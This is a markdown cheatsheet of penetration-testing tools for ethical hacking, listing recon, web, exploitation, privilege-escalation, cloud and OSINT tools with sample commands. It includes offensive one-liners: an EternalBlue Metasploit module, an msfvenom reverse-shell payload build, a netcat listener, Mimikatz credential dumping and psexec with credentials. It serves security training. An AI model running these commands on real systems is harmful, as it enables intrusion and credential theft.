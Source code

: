 # 🧰 Penetration Testing Tools Cheatsheet

This cheatsheet gives you a quick overview of essential tools for ethical hacking and red team operations.
Each category includes common commands, usage examples, and official links.

---

## 🧭 Reconnaissance & Information Gathering

| Tool             | Purpose                             | Example Command                        | Link                                                   |
| ---------------- | ----------------------------------- | -------------------------------------- | ------------------------------------------------------ |
| **Nmap**         | Network scanning, port discovery    | `nmap -sV -p- target.com`              | [nmap.org](https://nmap.org)                           |
| **whois**        | Domain info lookup                  | `whois target.com`                     | [whois.domaintools.com](https://whois.domaintools.com) |
| **theHarvester** | Email, domain, subdomain collection | `theHarvester -d target.com -b google` | [GitHub](https://github.com/laramies/theHarvester)     |
| **dnsenum**      | DNS enumeration                     | `dnsenum target.com`                   | [Kali Docs](https://www.kali.org/tools/dnsenum/)       |
| **Amass**        | Subdomain enumeration               | `amass enum -d target.com`             | [OWASP Amass](https://owasp.org/www-project-amass/)    |

---

## 🌐 Web Application Testing

| Tool           | Purpose                                     | Example Command                                                             | Link                                            |
| -------------- | ------------------------------------------- | --------------------------------------------------------------------------- | ----------------------------------------------- |
| **Burp Suite** | Intercept, modify, and replay HTTP requests | Proxy-based testing                                                         | [portswigger.net](https://portswigger.net/burp) |
| **OWASP ZAP**  | Automated web vulnerability scanner         | GUI / CLI scanning                                                          | [owasp.org](https://owasp.org/www-project-zap/) |
| **Gobuster**   | Directory brute forcing                     | `gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt` | [GitHub](https://github.com/OJ/gobuster)        |
| **SQLMap**     | SQL injection exploitation                  | `sqlmap -u "http://target.com?id=1" --dbs`                                  | [sqlmap.org](http://sqlmap.org)                 |
| **Nikto**      | Web server vulnerability scanner            | `nikto -h http://target.com`                                                | [cirt.net/Nikto2](https://cirt.net/Nikto2)      |

---

## 🧩 Exploitation Tools

| Tool                     | Purpose                             | Example Command                                                                            | Link                                         |
| ------------------------ | ----------------------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Metasploit Framework** | Exploitation and payload generation | `msfconsole` → `use exploit/windows/smb/ms17_010_eternalblue`                              | [metasploit.com](https://www.metasploit.com) |
| **SearchSploit**         | Search local exploit-db             | `searchsploit apache 2.4`                                                                  | [exploit-db.com](https://www.exploit-db.com) |
| **Netcat (nc)**          | Reverse shells & port listening     | `nc -lvnp 4444`                                                                            | [Nmap NC Docs](https://nmap.org/ncat/)       |
| **MSFVenom**             | Payload creation                    | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=4444 -f exe > payload.exe` | Included in Metasploit                       |

---

## 🧠 Privilege Escalation & Post-Exploitation

| Tool                  | Purpose                                           | Example Command                                 | Link                                                           |
| --------------------- | ------------------------------------------------- | ----------------------------------------------- | -------------------------------------------------------------- |
| **LinPEAS / WinPEAS** | Enumerate privilege escalation paths              | `./linpeas.sh`                                  | [PEASS-ng](https://github.com/carlospolop/PEASS-ng)            |
| **BloodHound**        | Active Directory attack path mapping              | `neo4j console` → run BloodHound GUI            | [bloodhound.readthedocs.io](https://bloodhound.readthedocs.io) |
| **Mimikatz**          | Credential extraction                             | `privilege::debug` / `sekurlsa::logonpasswords` | [GitHub](https://github.com/gentilkiwi/mimikatz)               |
| **Impacket**          | AD exploitation tools (psexec, secretsdump, etc.) | `psexec.py DOMAIN/user:pass@target`             | [Impacket](https://github.com/fortra/impacket)                 |

---

## ☁️ Cloud & Container Security

| Tool           | Purpose                              | Example Command                   | Link                                                        |
| -------------- | ------------------------------------ | --------------------------------- | ----------------------------------------------------------- |
| **Prowler**    | AWS CIS benchmark auditing           | `prowler -M csv`                  | [Prowler](https://github.com/prowler-cloud/prowler)         |
| **ScoutSuite** | Multi-cloud auditing (AWS/Azure/GCP) | `scout aws --report-dir reports/` | [ScoutSuite](https://github.com/nccgroup/ScoutSuite)        |
| **Trivy**      | Container vulnerability scanner      | `trivy image nginx:latest`        | [AquaSec Trivy](https://github.com/aquasecurity/trivy)      |
| **CloudGoat**  | Vulnerable AWS environment           | Hands-on lab                      | [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) |

---

## 🔍 OSINT (Open-Source Intelligence)

| Tool           | Purpose                          | Example Command                           | Link                                         |
| -------------- | -------------------------------- | ----------------------------------------- | -------------------------------------------- |
| **Maltego**    | Visual link analysis             | GUI-based                                 | [maltego.com](https://www.maltego.com)       |
| **SpiderFoot** | Automated recon tool             | `python3 spiderfoot.py -l 127.0.0.1:5001` | [spiderfoot.net](https://www.spiderfoot.net) |
| **Shodan**     | Internet-connected device search | `shodan search apache`                    | [shodan.io](https://www.shodan.io)           |
| **Censys**     | Network search engine            | API or web UI                             | [censys.io](https://search.censys.io)        |

---

## 🧾 Reporting & Documentation

| Tool           | Purpose                    | Example Command | Link                                               |
| -------------- | -------------------------- | --------------- | -------------------------------------------------- |
| **CherryTree** | Note-taking and reporting  | GUI-based       | [GitHub](https://github.com/giuspen/cherrytree)    |
| **Obsidian**   | Markdown knowledge base    | GUI-based       | [obsidian.md](https://obsidian.md)                 |
| **Dradis**     | Pentest reporting platform | Web interface   | [dradisframework.com](https://dradisframework.com) |

---

## 💡 Pro Tips

* Automate scanning tasks with Bash or Python.
* Take screenshots and timestamp your steps — it makes reporting faster.
* Always test tools in **authorized labs** like [TryHackMe](https://tryhackme.com) or [HackTheBox](https://hackthebox.com).

> A true hacker doesn’t just use tools — they understand how and *why* they work.

---

**Maintained by [Vishant Chaudhary](https://github.com/im-vishu)**
💼 [LinkedIn](https://www.linkedin.com/in/vishant--chaudhary)
